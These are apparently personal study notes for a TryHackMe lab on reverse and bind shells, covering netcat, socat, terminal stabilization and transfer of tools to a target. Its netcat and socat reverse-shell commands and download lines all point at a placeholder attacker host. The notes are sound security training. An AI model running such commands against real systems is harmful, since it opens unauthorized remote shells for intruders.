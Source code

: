 # TryHackMe: Complete Beginner

## What the Shell?

### What Is a Shell?

Terminology:

* REVERSE SHELLS are shells where the target is forced to connect back to the attacker.
* BIND SHELLS are shells bound to a port on the target that the attacker can connect to later.

### Tools

Typical tools for creating reverse shells or connecting to bind shells:

* `netcat` (`nc`) is present on just about every UNIX-like system. It can do just about everything, but can be a little bit unstable when constructing reverse shells.
* `socat` is a more versatile, more stable netcat. Unfortunately, it is rarely installed out-of-the-box.
* `auxilary/multi/handler` is the netcat/socat equivalent in [Metasploit](../notes/metasploit.md). It is the only way to interact with the Meterpreter attack shell, and has built-in support for staged payloads.
* `msfvenom` is a stand-alone version of multi/handler. It can also generate reverse shell payloads.

Useful sites:

* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Also check out /usr/share/webshells on Kali Linux.

### Types of Shells

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

Most initial reverse shells (in particular web shells) are non-interactive.

### Netcat

While binding to well-known ports requires the use of sudo, it’s also less likely to get flagged/blocked by intermediate firewalls.

### Netcat Shell Stabilization

One thing that causes a reverse shell to be non-interactive is when its running in a shell itself. It’s generally possible to stabilize these and get a fully interactive shell on UNIX-like systems:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

You can *mostly* bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn’t redirect control sequences, so Ctrl+C will still kill the connection).

It’s also possible to upgrade to a socat-powered shell, assuming that you have a statically-compiled version of socat. Typically, the way that you’d transfer this binary is by first [spinning up a simply webserver](../notes/quick-n-dirty-python-web-server.md) in the directory with your socat binary on the attack machine, and then downloading that binary to the vicitim.

* UNIX LIKE: `wget $ATTACKER_IP/socat -O /tmp/socat`
* WINDOWS (POWERSHELL): `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

### Socat

Socat: Just an anything-to-anything connector!

| Role                     | netcat                                   | socat                                                  |
|:------------------------ |:---------------------------------------- |:------------------------------------------------------ |
| Reverse shell (attacker) | `nc -lnp $LISTENER_PORT`                    | `socat TCP-LISTEN:$LISTENER_PORT -`                       |
| Reverse shell (target)   | `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash` | `socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"` |
| Bind shell (attacker)    | `nc $TARGET_IP $LISTENER_PORT`              | `socat TCP:$TARGET_IP:$LISTENER_PORT`                      |
| Bind shell (target)      | `nc -lnp $LISTENER_PORT -e /bin/bash`        | `socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"`      |

This gets us an interactive login shell right out the gate, though we’re still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems (though we will still need to use `stty` to set rows/columns).

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to “normalize” the
#              terminal’s environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that it’s perfectly acceptable to kick off a socat process from inside a netcat process!

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 27, 2021
